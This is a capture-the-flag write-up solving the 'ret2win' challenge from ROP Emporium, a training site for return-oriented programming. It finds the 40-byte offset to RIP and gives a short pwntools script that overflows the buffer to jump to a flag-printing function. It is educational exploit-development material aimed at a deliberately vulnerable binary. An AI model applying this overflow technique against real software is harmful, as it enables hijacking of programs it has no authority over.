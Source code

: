 ## ROP Emporium Solutions
ROP Emporium is a web page for learning return-oriented programming through a series of challenges. In this post, we are going to solve all the challenges.

## ret2win
You can download the binary here: https://ropemporium.com/binary/ret2win.zip

We start executing the binary to see the output:

![image](https://github.com/user-attachments/assets/f2c6075a-2e4a-4f9e-a33a-cf3b6f190d8c)

It says that the buffer is 32 bytes long. Let's check it out!

![image](https://github.com/user-attachments/assets/a0734009-bf89-419b-81c2-9cfcfc97ebde)

We see that we have a segmentation fault. We have to find the offset for RIP:

![image](https://github.com/user-attachments/assets/957f6fa3-7da9-4cda-99fc-715e3482cd6f)

![image](https://github.com/user-attachments/assets/3ff907e5-06ad-481e-b260-f78446ef14b0)

![image](https://github.com/user-attachments/assets/0248e03a-9279-4525-8659-325243e46300)

So if we add "8" bytes plus "32" bytes, we have "40" bytes to overwrite the RIP.

And now? We disassemble the "main" function:

![image](https://github.com/user-attachments/assets/0fcffa46-4fe2-41e2-85c6-efecb945d41c)

We see a "pwnme" interesting function...

![image](https://github.com/user-attachments/assets/8d6e5508-08db-40dd-8f5a-eeb52dc0699d)

Here we can see the "memset" and "read" functions so here is where the vulnerability is found. We need to call a function to print the flag. We are gonna check the imported functions:

![image](https://github.com/user-attachments/assets/8ee79bfc-c3a1-4a67-9d44-93b11099e7de)

We see the function "ret2win".

![image](https://github.com/user-attachments/assets/56da11f4-8f04-4dc4-b42a-c7141dd2b328)

![image](https://github.com/user-attachments/assets/a19794bb-01db-4401-a639-69217e034631)

This function calls "cat flag.txt" so it is interesting. We create the exploit:

```python
from pwn import *

elf = context.binary = ELF('./ret2win')

ret2win = elf.symbols['ret2win']

p = process(elf.path)

offset = 40
filler = b"A" * offset
payload = filler + p64(ret2win)

p.sendline(payload)

p.interactive()
```

And we receive the flag!

![image](https://github.com/user-attachments/assets/bdf77cb5-82dd-44ae-8cd9-08b351c8c06a)

